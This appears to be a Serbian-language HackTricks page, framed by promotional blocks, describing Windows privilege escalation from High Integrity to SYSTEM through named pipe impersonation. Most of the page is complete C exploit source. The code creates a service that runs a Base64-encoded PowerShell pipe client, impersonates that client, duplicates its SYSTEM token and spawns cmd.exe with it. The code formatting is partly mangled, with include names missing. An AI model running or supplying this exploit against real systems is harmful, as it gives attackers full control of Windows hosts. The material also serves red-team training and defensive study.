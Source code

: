 # From High Integrity to SYSTEM with Name Pipes

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Tok koda:**

1. Kreirajte novu cjevovod (Pipe)
2. Kreirajte i pokrenite servis koji će se povezati na kreiranu cjevovod i nešto napisati. Kod servisa će se izvršiti ovaj enkodirani PS kod: `$pipe = new-object System.IO.Pipes.NamedPipeClientStream("piper"); $pipe.Connect(); $sw = new-object System.IO.StreamWriter($pipe); $sw.WriteLine("Go"); $sw.Dispose();`
3. Servis prima podatke od klijenta u cjevovodu, poziva ImpersonateNamedPipeClient i čeka da servis završi
4. Na kraju, koristi token dobijen od servisa da pokrene novi _cmd.exe_

{% hint style="warning" %}
Ako nemate dovoljno privilegija, eksploit može da se zaglavi i nikada se ne vrati.
{% endhint %}

\`\`\`c #include #include

\#pragma comment (lib, "advapi32") #pragma comment (lib, "kernel32")

\#define PIPESRV "PiperSrv" #define MESSAGE\_SIZE 512

int ServiceGo(void) {

SC\_HANDLE scManager; SC\_HANDLE scService;

scManager = OpenSCManager(NULL, SERVICES\_ACTIVE\_DATABASE, SC\_MANAGER\_ALL\_ACCESS);

if (scManager == NULL) { return FALSE; }

// create Piper service scService = CreateServiceA(scManager, PIPESRV, PIPESRV, SERVICE\_ALL\_ACCESS, SERVICE\_WIN32\_OWN\_PROCESS, SERVICE\_DEMAND\_START, SERVICE\_ERROR\_NORMAL, "C:\Windows\\\System32\cmd.exe /rpowershell.exe -EncodedCommand JABwAGkAcABlACAAPQAgAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFAAaQBwAGUAcwAuAE4AYQBtAGUAZABQAGkAcABlAEMAbABpAGUAbgB0AFMAdAByAGUAYQBtACgAIgBwAGkAcABlAHIAIgApADsAIAAkAHAAaQBwAGUALgBDAG8AbgBuAGUAYwB0ACgAKQA7ACAAJABzAHcAIAA9ACAAbgBlAHcALQBvAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAHAAaQBwAGUAKQA7ACAAJABzAHcALgBXAHIAaQB0AGUATABpAG4AZQAoACIARwBvACIAKQA7ACAAJABzAHcALgBEAGkAcwBwAG8AcwBlACgAKQA7AA==", NULL, NULL, NULL, NULL, NULL);

if (scService == NULL) { //printf("\[!] CreateServiceA() failed: \[%d]\n", GetLastError()); return FALSE; }

// launch it StartService(scService, 0, NULL);

// wait a bit and then cleanup Sleep(10000); DeleteService(scService);

CloseServiceHandle(scService); CloseServiceHandle(scManager); }

int main() {

LPCSTR sPipeName = "\\\\.\pipe\piper"; HANDLE hSrvPipe; HANDLE th; BOOL bPipeConn; char pPipeBuf\[MESSAGE\_SIZE]; DWORD dBRead = 0;

HANDLE hImpToken; HANDLE hNewToken; STARTUPINFOA si; PROCESS\_INFORMATION pi;

// open pipe hSrvPipe = CreateNamedPipeA(sPipeName, PIPE\_ACCESS\_DUPLEX, PIPE\_TYPE\_MESSAGE | PIPE\_WAIT, PIPE\_UNLIMITED\_INSTANCES, 1024, 1024, 0, NULL);

// create and run service th = CreateThread(0, 0, (LPTHREAD\_START\_ROUTINE)ServiceGo, NULL, 0, 0);

// wait for the connection from the service bPipeConn = ConnectNamedPipe(hSrvPipe, NULL); if (bPipeConn) { ReadFile(hSrvPipe, \&pPipeBuf, MESSAGE\_SIZE, \&dBRead, NULL);

// impersonate the service (SYSTEM) if (ImpersonateNamedPipeClient(hSrvPipe) == 0) { return -1; }

// wait for the service to cleanup WaitForSingleObject(th, INFINITE);

// get a handle to impersonated token if (!OpenThreadToken(GetCurrentThread(), TOKEN\_ALL\_ACCESS, FALSE, \&hImpToken)) { return -2; }

// create new primary token for new process if (!DuplicateTokenEx(hImpToken, TOKEN\_ALL\_ACCESS, NULL, SecurityDelegation, TokenPrimary, \&hNewToken)) { return -4; }

//Sleep(20000); // spawn cmd.exe as full SYSTEM user ZeroMemory(\&si, sizeof(si)); si.cb = sizeof(si); ZeroMemory(\&pi, sizeof(pi)); if (!CreateProcessWithTokenW(hNewToken, LOGON\_NETCREDENTIALS\_ONLY, L"cmd.exe", NULL, NULL, NULL, NULL, (LPSTARTUPINFOW)\&si, \&pi)) { return -5; }

// revert back to original security context RevertToSelf();

}

return 0; }

```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
```
